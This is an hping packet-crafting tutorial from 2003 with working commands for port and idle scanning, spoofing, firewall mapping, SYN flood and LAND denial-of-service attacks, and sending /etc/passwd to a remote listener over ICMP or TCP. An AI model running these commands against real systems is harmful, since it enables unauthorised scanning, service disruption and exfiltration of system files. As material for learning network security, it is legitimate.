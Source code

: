 # HPING Tutorial

### By Philippe Bogaerts, alias xxradar.
Website: [radarhack.com](http://www.radarhack.com)
Contact: [xxradar@radarhack.com](mailto:xxradar@radarhack.com)
Version: 1.5 (24-08-2003)

## What is HPING?

Hping is a command-line-oriented TCP/IP packet crafter. It is used to create IP packets with TCP, UDP, or ICMP payloads, allowing for modification and control of all header fields via command line input. To effectively use HPING, a solid understanding of IP and TCP/UDP protocols is crucial.

For more detailed information and to download the binaries, visit [hping.org](http://www.hping.org). You can also find a full working version of hping on a bootable CD at [knoppix-std.org](http://www.knoppix-std.org). Please exercise caution and use the examples within a test environment, as they might impact firewalls or end systems.

---

## Usage Examples

### 1. HPING as a Port Scanner

HPING can craft TCP packets by specifying TCP flags, a destination port, and a target IP:

- **Flags:**
  - `-F`: Set FIN flag
  - `-S`: Set SYN flag
  - `-R`: Set RST flag
  - `-P`: Set PUSH flag
  - `-A`: Set ACK flag
  - `-U`: Set URG flag
  - `-X`: Set X unused flag (0x40)
  - `-Y`: Set Y unused flag (0x80)

Example command to scan port 80:

```bash
[root@localhost root]# hping -I eth0 -S 192.168.10.1 -p 80
```

Output:
- Open ports are indicated by packets with `SA` flags returned, while closed ports show `RA` packets.
- Similar to SYN or Stealth scanning.
- `++` can be used to increment the destination port during scans.

Example with incrementing port:

```bash
[root@localhost root]# hping -I eth0 -S 192.168.10.1 -p ++79
```

To see only open ports:

```bash
[root@localhost root]# hping -I eth0 -S 192.168.10.1 -p ++79 | grep SA
```

### 2. Idle Scanning

Idle scanning anonymously scans a remote system by using a third "silent host."

**Requirements:**

- A silent host with predictable IP ID increments.
- Use commands to probe the silent host and monitor the ID increments.

Session 1: A spoofed scan:

```bash
[root@localhost root]# hping -I eth0 -a 192.168.10.1 -S 192.168.10.33 -p ++20
```

Session 2: Continuous probing:

```bash
[root@localhost docs]# hping -I eth0 -r -S 192.168.10.1 -p 2000
```

### 3. Firewall Mapping

Map firewalls using traceroute-style techniques with HPING by utilizing ICMP, UDP, and TCP packets.

- `-t`: Sets initial TTL in the IP header.
- `-z`: Binds the `ctrl+z` key to increase TTL when pressed.

Example command for firewall mapping:

```bash
[root@localhost root]# hping -I eth0 -z -t 6 -S mail.test.com -p 143
```

### 4. HPING as a DoS Tool

#### 4.1 SYN Attack

An example of a SYN flood attack against a Windows 2000 machine.

```bash
[root@localhost root]# hping -I eth0 -a 192.168.10.99 -S 192.168.10.33 -p 80 -i u1000
```

#### 4.2 LAND Attack

Attacks a system by sending packets from itself to itself:

```bash
[root@localhost root]# hping -S -a 10.10.10.10 -p 21 10.10.10.10
```

#### 4.3 Spoofing Control

Checks firewalls' ability to block spoofed packets by spoofing packets.

### 5. Packets with Signatures

Create data payloads that carry signatures to demonstrate potential misuse of UDP services:

```bash
[root@localhost rules]# hping -2 -p 7 192.168.10.33 -d 50 -E /root/signature.sig
```

### 6. Transferring Files via ICMP, UDP, or TCP

Using `--listen` switch:

#### 6.1 Transferring via ICMP

Receiver:

```bash
[root@localhost root]# hping 192.168.10.66 --listen signature --safe --icmp
```

Sender:

```bash
[root@knoppix root]# hping 192.168.10.44 --icmp -d 100 --sign signature --file /etc/passwd
```

#### 6.2 Transferring via TCP

Receiver:

```bash
[root@localhost root]# hping 192.168.10.66 --listen signature --safe -p 22
```

Sender:

```bash
[root@knoppix root]hping -p 22 -d 100 --sign signature --file /etc/passwd
```

### 7. Conclusion

HPING is a versatile tool for those wishing to learn and experiment with TCP/IP protocols, audit firewalls, or simply explore network behavior. It is vital to operate within legal and ethical boundaries while using this powerful tool.
